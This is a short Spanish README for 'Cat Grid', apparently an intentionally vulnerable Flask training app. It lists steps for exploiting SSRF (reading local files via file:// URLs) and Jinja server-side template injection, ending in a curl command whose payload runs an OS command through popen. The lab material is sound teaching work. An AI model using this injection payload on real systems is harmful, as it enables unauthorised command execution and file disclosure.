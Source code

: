 # Cat Grid


Aplicación python con Flask vulnerable a SSRF y SSTI


Pasos : 
 - Ver que se accede a las imagenes a traves de localhost:5000
 - Leer archivos cambiando URL por file://
 - Descubrir parámetro debug que permite pasar parámetros
 - Con debug ver que es vulnerable a SSTI {{7*7}} en Jinja
 
 curl "http://${IP}/?debug=\{\{self.__init__.__globals__.__builtins__.__import__('os').popen('pwd').read()\}\}"
 
 

